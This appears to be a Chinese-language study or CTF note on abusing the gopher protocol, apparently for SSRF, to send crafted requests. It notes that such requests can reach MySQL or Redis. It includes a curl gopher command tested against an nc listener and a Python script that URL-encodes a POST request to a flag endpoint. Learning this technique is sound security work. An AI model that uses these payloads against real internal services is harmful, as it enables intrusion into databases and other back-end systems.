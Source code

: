 

### gopher

> gopher 协议是一个在http 协议诞生前用来访问Internet 资源的协议可以理解为http 协议的前身或简化版，支持发出GET、POST请求，可以实现多个数据包整合发送，然后gopher 服务器将多个数据包捆绑着发送到客户端，这就是它的菜单响应。比如使用一条gopher 协议的curl 命令就能操作mysql 数据库或完成对redis 的攻击等等。

![img](../../../images/v2-ea9bb9538044933ac3c918d5a56f2d69_720w.jpg)

- 坑点

```shell
┌──(khaz㉿kali)-[~/桌面]
└─$ curl gopher://localhost:2222/khaz%0atest%0ahaha 
```

```shell
┌──(khaz㉿kali)-[~/桌面]
└─$ nc -lvp 2222
listening on [any] 2222 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 50546
haz
test
haha
```

会发现接收到的消息是分行的，而且第一行只接收到了haz，k被‘吃掉’了。

所以在使用gopher协议时**需要在url后加入一个任意字符**才行。

- get/post请求

  > 1、构造HTTP数据包
  >
  > 2、URL编码、替换回车换行为%0d%0a,
  > 3、发送gopher协议

  注意HTTP数据包中必须要有下面四个请求头

```text
POST /1.php HTTP/1.1
Host: 192.168.244.128
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
  
a=khaz
```

```python
import urllib.parse
#转换脚本
uri = '/flag.php'
host = '127.0.0.1:80'
content = 'key=90bb4d9d9946905d6d9d68358d7c0360'
content_length = len(content)


test =f"""POST {uri} HTTP/1.1
  Host: {host}
  Content-Type: application/x-www-form-urlencoded
  Content-Length: {content_length}
  
  {content}"""

first = urllib.parse.quote(test)#url编码
```